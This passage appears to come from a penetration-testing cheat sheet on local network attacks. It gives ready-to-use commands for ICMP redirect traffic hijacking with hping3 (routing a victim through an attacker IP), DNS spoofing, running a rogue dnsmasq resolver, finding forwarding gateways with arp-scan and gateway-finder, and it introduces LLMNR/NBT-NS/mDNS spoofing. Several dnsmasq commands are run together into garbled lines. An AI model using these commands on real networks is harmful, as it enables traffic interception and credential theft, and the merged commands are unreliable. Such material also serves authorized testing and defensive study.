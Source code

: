 ```bash
Ettercap
icmp_redirect
hping3 [VICTIM IP ADDRESS] -C 5 -K 1 -a [VICTIM DEFAULT GW IP ADDRESS] --icmp-gw [ATTACKER IP ADDRESS] --icmp-ipdst [DST IP ADDRESS] --icmp-ipsrc [VICTIM IP ADDRESS] #Send icmp to [1] form [2], route to [3] packets sent to [4] from [5]
```

### DNS Spoofing

The attacker will resolve some \(or all\) the domains that the victim ask for.

```bash
set dns.spoof.hosts ./dns.spoof.hosts; dns.spoof on
```

**Configure own DNS with dnsmasq**

```bash
apt-get install dnsmasqecho "addn-hosts=dnsmasq.hosts" > dnsmasq.conf #Create dnsmasq.confecho "127.0.0.1   domain.example.com" > dnsmasq.hosts #Domains in dnsmasq.hosts will be the domains resolved by the Dsudo dnsmasq -C dnsmasq.conf --no-daemon
dig @localhost domain.example.com # Test the configured DNS
```

### Local Gateways

Multiple routes to systems and networks often exist. Upon building a list of MAC addresses within the local network, use _gateway-finder.py_ to identify hosts that support IPv4 forwarding.

```text
root@kali:~# git clone https://github.com/pentestmonkey/gateway-finder.git
root@kali:~# cd gateway-finder/
root@kali:~# arp-scan -l | tee hosts.txt
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.6 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/) 
10.0.0.100     00:13:72:09:ad:76       Dell Inc.
10.0.0.200     00:90:27:43:c0:57       INTEL CORPORATION
10.0.0.254     00:08:74:c0:40:ce       Dell Computer Corp.

root@kali:~/gateway-finder# ./gateway-finder.py -f hosts.txt -i 209.85.227.99
gateway-finder v1.0 http://pentestmonkey.net/tools/gateway-finder
[+] Using interface eth0 (-I to change)
[+] Found 3 MAC addresses in hosts.txt
[+] We can ping 209.85.227.99 via 00:13:72:09:AD:76 [10.0.0.100]
[+] We can reach TCP port 80 on 209.85.227.99 via 00:13:72:09:AD:76 [10.0.0.100]
```

### [Spoofing LLMNR, NBT-NS, and mDNS](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)

Microsoft systems use Link-Local Multicast Name Resolution \(LLMNR\) and the NetBIOS Name Service \(NBT-NS\) for local host resolution when DNS lookups fail. Apple Bonjour and Linux zero-configuration implementations use Multicast DNS \(mDNS\) to discover systems within a network. These protocols are unauthenticated and broadcast messages over UDP; thus, attackers can exploit them to direct users to malicious services.
